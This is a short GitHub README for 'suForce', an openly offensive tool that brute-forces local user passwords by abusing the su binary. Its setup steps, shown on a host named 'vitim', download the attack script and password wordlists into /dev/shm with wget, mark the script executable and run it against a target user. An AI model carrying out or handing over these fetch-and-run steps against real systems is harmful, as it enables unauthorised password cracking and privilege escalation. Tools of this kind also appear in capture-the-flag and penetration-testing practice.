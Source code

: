 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/1.png)

- <kbd>Download</kbd>

```cmd
user@vitim:~$ cd /dev/shm
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce.sh"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
user@vitim:~$ wget -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
user@vitim:~$ chmod +x suForce.sh
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce.sh -u <USER> -w <WORDLIST>
```

---
